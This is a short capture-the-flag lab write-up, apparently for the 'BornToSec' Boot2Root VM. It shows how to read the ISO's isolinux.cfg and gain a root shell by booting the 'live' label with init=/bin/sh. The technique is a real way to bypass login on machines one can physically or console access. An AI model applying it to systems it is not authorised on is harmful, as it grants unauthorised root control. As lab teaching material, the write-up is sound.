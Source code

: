 # Boot in Root

After some research, we realize that one of the easiest ways to become is to go through **grub** to put us in a **"Recovery "** mode.

However we don't have grub.

It turns out that ISO has **syslinux**.

We are looking for the syslinux config file (**isolinux.cfg**), so :
<pre><code>> find / -type f -name isolinux.cfg -print 2>/dev/null
/cdrom/isolinux/isolinux.cfg
> cat /cdrom/isolinux/isolinux.cfg
default live
prompt 0
timeout 0

menu title BornToSec
menu background splash.png
menu color title 1;37;44 #c0ffffff #00000000 std

label live
  menu label live - boot the Live System
  kernel /casper/vmlinuz
  append  file=/cdrom/preseed/custom.seed boot=casper initrd=/casper/initrd.gz quiet splash --
</code></pre>

So we know that for booting, our ISO uses the *label* **live**.

We restart our VM by holding down the [Shift] or [Alt] key to dodge the default launch (defined by **isolinux.cfg**).

Once in the "**Recovery**" terminal we type the following command :
<pre><code>live init=/bin/sh</code></pre>
> We use the live label to boot normally and add the command <code>init=/bin/sh</code>, which will force the kernel to run /bin/sh instead of its default init.


![Root to Boot](writeup3.png "Screenshot")